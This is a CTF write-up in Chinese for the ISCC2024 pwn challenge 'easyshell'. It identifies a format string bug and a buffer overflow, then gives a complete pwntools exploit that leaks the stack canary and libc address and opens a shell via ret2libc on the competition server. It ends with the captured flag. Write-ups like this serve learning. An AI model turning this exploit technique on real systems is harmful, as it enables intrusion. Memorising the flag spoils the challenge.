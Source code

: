 # ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_easyshell分析

checksec一下

![image-20240520205202867](image/image-20240520205202867.png)

查看IDA，进行反编译，分别查看welcome和back

<img src="image/image-20240520205248644.png" alt="image-20240520205248644" style="zoom:67%;" />

可以看到有一个格式化字符串漏洞

<img src="image/image-20240520205353480.png" alt="image-20240520205353480" style="zoom: 67%;" />

back也有一个溢出

![image-20240520205556245](image/image-20240520205556245.png)

找了一遍发现没有可利用的后门函数，基本可以判断这是一道ret2libc，先泄露canary，再利用puts函数泄露libc版本，最后进行ret2libc

在https://libc.blukat.me/libc查到libc版本`libc6-i386_2.31-0ubuntu9.15_amd64`

# exp

```python
from pwn import *
io = remote('182.92.237.102',10012)
elf = ELF('./attachment-12')
back = 0x804931B
io.recvuntil(b'\n')
io.sendline(b'%19$p')
io.recvuntil(b'\n')
canary = int(io.recv(10),16)
#print(hex(canary))
payload1 = b'a' * 0x88
payload1 += p32(canary)  + p32(0) * 3
payload1 += p32(elf.plt['puts']) + p32(back) + p32(elf.got['puts'])
io.sendlineafter(b'ut:\n',payload1)
libc = u32(io.recv(4)) - 0x06d1e0
#print(hex(libc))
payload2 = b'a' * 0x88
payload2 += p32(canary)  + p32(0) * 3
payload2 += p32(libc + 0x041360) + p32(back) + p32(libc + 0x18c363)
io.sendlineafter(b'ut:\n',payload2)
io.interactive()
```

# flag

```
ISCC{bE8TUNd4ULgedpFUv4PLGoC5GcXob1Des8el}
```

